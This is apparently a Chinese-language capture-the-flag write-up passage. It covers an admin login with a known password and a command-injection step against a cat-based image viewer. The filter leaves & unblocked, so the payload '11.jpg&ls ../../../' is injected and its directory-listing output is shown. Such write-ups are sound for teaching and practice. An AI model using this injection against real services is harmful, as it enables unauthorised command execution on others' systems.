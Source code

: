 这是登陆的截断，就相当于我们修改了admin的密码一样，然后用账号admin和密码123QWEasd登陆就可以成功了！

### **Get Flag**

开始是上传一个文件比如1.jpg可以得到一个图片，然后我们随便输入一个东西，比如说123，然后我们可以得到如下的东西

<center>![这里写图片描述](img/15d06d2085e476844ada613131be3677.png)</center>

然后是一个base64解码嘛，然后解密一下发现是这样的

```
cat: images/123: No such file or directory
```

然后我们发现就是cat查询，中间使用bash的通配符！然后可以控制命令行。有什么; * ,等都被过滤了，但是&没有被过滤，所以可以通过这个加入命令，不断用ls得到目录，当前没有，向上目录搜索，在构造`11.jpg&ls ../../../` 解码时时候发现如下：

```
cat: images/11.jpg: No such file or directory
9iZM2qTEmq67SOdJp%!oJm2%M4!nhS_thi5_flag
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
```